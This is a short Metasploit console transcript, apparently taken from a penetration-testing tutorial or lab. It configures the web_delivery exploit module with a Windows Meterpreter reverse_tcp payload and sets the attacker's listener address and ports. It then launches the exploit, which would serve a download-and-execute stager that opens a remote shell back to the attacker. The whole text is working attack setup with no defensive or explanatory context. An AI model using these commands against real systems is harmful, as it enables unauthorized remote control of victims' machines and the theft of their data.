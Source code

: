 msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(web_delivery) > set lhost 192.168.1.101
lhost => 192.168.1.101
msf exploit(web_delivery) > set lport 6666
lport => 6666
msf exploit(web_delivery) > set SRVPORT 8081
SRVPORT => 8081
msf exploit(web_delivery) > set uripath /
uripath => /
msf exploit(web_delivery) > exploit
